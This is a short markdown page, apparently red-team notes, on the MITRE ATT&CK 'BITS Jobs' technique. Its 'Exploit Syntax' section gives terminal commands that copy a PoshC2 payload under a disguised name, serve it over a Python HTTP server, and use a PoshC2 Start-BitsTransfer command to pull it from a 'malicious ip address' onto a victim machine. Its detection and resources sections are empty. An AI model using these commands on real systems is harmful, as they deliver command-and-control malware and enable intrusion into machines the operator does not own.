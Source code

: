 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```sh
    mkdir /home/<user>/Desktop/Lincoler
    cd /home/<user>/Desktop/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```

## Detection Method

## Resources    